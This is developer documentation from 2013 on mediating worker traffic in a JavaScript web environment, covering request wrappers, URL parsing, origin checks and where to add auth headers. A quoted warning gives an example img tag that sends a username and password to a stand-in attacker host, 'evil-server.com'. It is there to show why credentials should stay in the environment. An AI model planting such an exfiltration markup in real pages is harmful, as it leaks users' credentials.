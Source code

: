 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.request = function(origin, request) {
	// pass the request to Link for fulfillment
	return Link.request(request);
};
```

All worker servers will use this function to issue requests; it's up to the in-document servers whether to use `Environment.request` rather than `Link.request`.


## Common Patterns and Tools

### Link.parse.url

`Link.parse.url` wraps [Stephen Levithan's parseUri](http://stevenlevithan.com/demo/parseuri/js/), a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parse.url(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.request(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.request(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive [Content Security Policies](https://developer.mozilla.org/en-US/docs/Security/CSP), the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.request = function(origin, request) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(origin, request)) {
		Link.headers(request.headers).addAuth(MySessionManager.getSession(origin, request));
	}
	// ...
};
```


## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](lib/environment.md)